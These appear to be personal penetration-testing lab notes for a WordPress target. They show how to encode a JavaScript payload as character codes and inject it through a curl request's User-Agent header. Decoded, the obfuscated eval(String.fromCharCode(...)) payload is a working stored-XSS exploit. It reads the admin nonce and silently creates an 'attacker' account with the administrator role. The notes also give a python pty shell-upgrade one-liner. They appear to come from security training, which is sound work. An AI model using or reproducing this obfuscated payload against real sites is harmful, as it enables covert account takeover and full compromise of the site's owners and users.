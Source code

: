 ```
```

can use jscompress.com to minify JS payload 

afterwards we can encode it in utf-16 to make sure any invalid characters don't exist

charCodeAt -> converts to UTF-16

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

can then use the eval(String.fromCharCode) in the payload to decode the JS and execute it

```
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

python2 pseudo-terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
